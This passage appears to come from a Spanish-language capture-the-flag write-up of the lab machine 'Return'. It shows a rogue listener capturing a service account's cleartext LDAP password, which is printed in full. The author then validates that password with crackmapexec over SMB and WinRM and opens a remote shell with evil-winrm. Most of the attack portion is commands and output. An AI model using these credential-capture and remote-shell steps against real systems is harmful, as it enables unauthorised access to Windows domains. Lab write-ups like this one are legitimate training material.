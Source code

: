```bash
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[...]


[+] Listening for events...

[LDAP] Cleartext Client   : 10.10.11.108
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1edFg43012!!
```
Esta herramienta parsea las credenciales.

### Cred test
Ahora, para verificar si son credenciales válidas, lo podemos hacer con **crackmapexec** autenticandonos frente al protocolo **SMB**:
```bash
❯ cme smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!!
```

Son credenciales válidas.
Probemos ahora a autenticarnos frente al servicio WinRM que vimos anteriormente, por suerte **crackmapexec** tiene un modulo para esto:
```bash
❯ cme winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
SMB         10.10.11.108    5985   PRINTER          [*] Windows 10.0 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.10.11.108    5985   PRINTER          [*] http://10.10.11.108:5985/wsman
WINRM       10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```
### Acceso inicial
Como vemos, pone `Pwn3d!`, esto significa que podemos acceer a la máquina como este usuario con **evil-winrm**:
```text
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ evil-winrm -i 10.10.11.108 -u "svc-printer" -p '1edFg43012!!'
                                        
Evil-WinRM shell v3.5
                                        index
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```
